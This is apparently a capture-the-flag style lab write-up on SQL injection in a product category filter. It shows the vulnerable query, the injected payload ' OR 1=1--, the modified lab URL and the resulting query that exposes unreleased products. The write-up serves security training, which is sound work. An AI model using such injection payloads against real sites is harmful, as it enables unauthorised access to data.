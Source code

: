 # Retrieving hidden data

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

Target URL:

```
https://ac6d1ff11f66bccd816d5ebd00c40052.web-security-academy.net/filter?category=Gifts
```

Solution:

```SQL
' OR 1=1--
```

Modified URL:

```
https://ac6d1ff11f66bccd816d5ebd00c40052.web-security-academy.net/filter?category=Gifts'+OR+1=1--
```

Modified SQL query:

```SQL
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```